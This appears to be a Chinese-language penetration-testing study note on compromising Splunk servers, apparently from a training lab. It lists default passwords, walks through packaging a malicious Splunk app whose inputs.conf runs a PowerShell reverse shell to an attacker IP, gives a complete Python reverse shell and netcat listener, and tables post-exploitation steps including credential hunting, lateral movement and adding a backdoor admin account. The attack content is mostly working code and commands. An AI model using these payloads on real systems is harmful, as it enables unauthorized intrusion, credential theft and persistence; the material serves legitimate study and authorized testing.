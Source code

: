 ```yaml
---
description: >-
  我們在評估過程中經常會看到 Splunk，尤其是在大型企業環境中的內部滲透測試期間。我們也曾見過它暴露在外部，但是這種情況比較少見。 Splunk
  不存在太多可利用的漏洞，並且能夠快速修補任何問題。在評估期間，Splunk 的最大關注點是弱身份驗證或空身份驗證，因為 Splunk
  的管理員存取權限使我們能夠部署自訂應用程序，這些應用程式可用於快速入侵 Splunk 伺服器，並且根據 Splunk
---
```


# Splunk

## <mark style="color:red;">**1. 發現點**</mark>

* **Nmap 掃描**：

```bash
nmap -p8000,8089 -sV <target>
```

> 開放 8000（Web UI）、8089（REST API）

* 嘗試登入：

```
http://splunk.inlanefreight.local:8000
```

* 常見弱密碼：\
  `admin:changeme`、`admin:Welcome1`、`admin:password123`
* 如果試用版過期 → 轉成 **Splunk Free**，無需身份驗證！
* 如果成功登入，就可以上傳 App、執行 Python、PowerShell 腳本。

## <mark style="color:red;">**2.**</mark> 濫用內建功能

> Splunk 允許安裝「自訂 App」，而 App 裏面可以包含 `inputs.conf` 指定定時執行 script。
>
> #### (A) Clone 攻擊模板 Repo：
>
> ```bash
> git clone https://github.com/0xjpuff/reverse_shell_splunk.git
> ```
>
> > 裏面已經有好用嘅 Splunk App 結構同示範反向 shell 腳本。
>
> ***
>
> #### (B) 編輯反向 shell 腳本
>
> 進入目錄：
>
> ```bash
> cd reverse_shell_splunk/reverse_shell_splunk/bin
> ```
>
> 用你鍾意嘅編輯器開 `run.ps1`：
>
> ```powershell
> # 找到 attacker_ip_here、attacker_port_here
> # 改成你本機 IP 同 port
> $client = New-Object System.Net.Sockets.TCPClient("PWNIP",PWNPO)
> ```
>
> ⚠ 例子：
>
> ```powershell
> $client = New-Object System.Net.Sockets.TCPClient("10.10.14.15",443)
> ```
>
> ***
>
> #### (C) 檢查 `inputs.conf`
>
> `reverse_shell_splunk/reverse_shell_splunk/default/inputs.conf` 應該長這樣：
>
> ```
> [script://.\bin\run.bat]
> disabled = 0
> interval = 10
> sourcetype = shell
> ```
>
> * 代表 Splunk 會每 10 秒執行 `run.bat`，
> * 而 `run.bat` 會調用 `run.ps1`，執行 PowerShell 反彈 shell。
>
> ***
>
> #### (D) 打包成 splunk app 檔案：
>
> ```bash
> tar -cvzf updater.tar.gz reverse_shell_splunk/
> ```
>
> ***
>
> ### 3️⃣ 上傳 & 觸發
>
> * 開瀏覽器登入 Splunk：
>
> ```
> http://splunk.<target>.local:8000
> ```
>
> * Splunk 一啟用 App，就會執行 `inputs.conf` 指定腳本。
>
>

*   選：**Manage Apps → Install app from file → 選 updater.tar.gz → Upload**

    <figure><img src="../../../.gitbook/assets/螢幕截圖 2025-03-19 16.00.37.png" alt="" width="200"><figcaption></figcaption></figure>

***

#### (E) 開啟監聽器：

```bash
sudo nc -lnvp 443
```

> 然後登入 Splunk Web UI\
> App → Manage Apps → Install App from File\
> 上傳 `updater.tar.gz`

* App 被啟用後，每 10 秒會執行腳本，Netcat 會接收到 SYSTEM 權限反彈 shell。

***

### 3️⃣ Linux 系統同樣方法

* 改 `rev.py` 成 Python 反向 shell：

```python
import socket,os,pty
s=socket.socket()
s.connect(("你的IP",443))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```

* 同樣打包 splunk\_shell 資料夾，透過 Web UI 上傳，即可 RCE。

## <mark style="color:red;">3. Splunk CVE 利用方向</mark>

* Splunk 曾有 SSRF 漏洞（可繞過 API 權限）
* CVE-2018-11409：可以利用 dashboard XML 文件進行 RCE
* 如果 REST API 無需驗證，可以用 API 呼叫將惡意 App 上傳或注入 script

## <mark style="color:red;">4. 連鎖漏洞</mark>

| 已取得 RCE 後可以做嘅事 | 操作                                                           |
| -------------- | ------------------------------------------------------------ |
| Windows 主機     | 檢查 `whoami` → 如果 SYSTEM 權限，即可嘗試 dump 域憑證                     |
| 搜索域帳號 / 密碼     | `dir C:\Program Files\Splunk\etc\` 找 config，有可能 plaintext 密碼 |
| Linux 主機       | `cat /opt/splunk/etc/passwd` 文件（存 local users hash）          |
| 內網掃描           | 使用 `ping`、`nmap`、`net view`、`net group /domain`              |
| 橫向移動           | 試試用抓到嘅憑證 WinRM / RDP / SMB                                   |
| 提權             | `schtasks /query` 或 `wmic` 查有冇可寫服務                           |
| 持久化            | 建立新 admin 使用者 `net user pwned P@ssw0rd /add`                 |
